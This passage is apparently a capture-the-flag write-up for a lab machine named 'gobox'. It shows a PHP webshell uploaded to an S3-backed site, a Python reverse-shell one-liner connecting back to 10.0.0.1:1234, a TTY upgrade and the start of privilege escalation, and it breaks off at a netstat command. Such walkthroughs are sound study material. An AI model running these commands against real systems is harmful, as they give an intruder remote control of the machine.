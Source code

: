 ```
![image](https://user-images.githubusercontent.com/69868171/132525824-afaf56cc-0673-4d59-aaa0-d64f74730902.png)

Ahhh awesome we have it now let copy it to port 80 with aws.


![image](https://user-images.githubusercontent.com/69868171/132526451-295f9ae1-09f9-46a4-94d8-7011a6de49ac.png)


```
aws s3 cp /tmp/rev s3://website/rev.php
```

Now let confirm it on port 80 which is the HTTP.

![image](https://user-images.githubusercontent.com/69868171/132528270-5caf2a42-cd7b-48c5-9461-17b219e6ef27.png)

Boom a webshell now let get a reverse shell back to our terminal.

### SHELL

![image](https://user-images.githubusercontent.com/69868171/132530492-a7f62bb9-e15a-49f2-a029-b4756a6ae1d0.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/69868171/132530389-a486ae39-d892-4f76-b729-44980c909566.png)

Now let spawn a TTY shell.

![image](https://user-images.githubusercontent.com/69868171/132531261-9e8097a3-b932-4290-878a-7af64421ccb5.png)


```
python3 -c 'import pty; pty.spawn ("/bin/bash")'
```

Now let get the user.txt in the home directory of the user `ubuntu` .

![image](https://user-images.githubusercontent.com/69868171/132531727-af64a504-6a14-4ee5-bb13-c8147eb1b2d4.png)


### Privilege Escalation

Ahhh the hard the part man i was stuck here for so long all thanks to my buddy `c3p0d4y` for the nudge i love you man so let hit it. The root part is pretty new to me like damn it was fun.

![image](https://user-images.githubusercontent.com/69868171/132534361-79297953-4946-488b-9f31-562990fc1722.png)

Kernal version but nothing thinking it vulnerable to `overlayfs` but it probably patched lol let check the ports that is running locally on the target.

```
www-data@gobox:~/html$ netstat -tulpn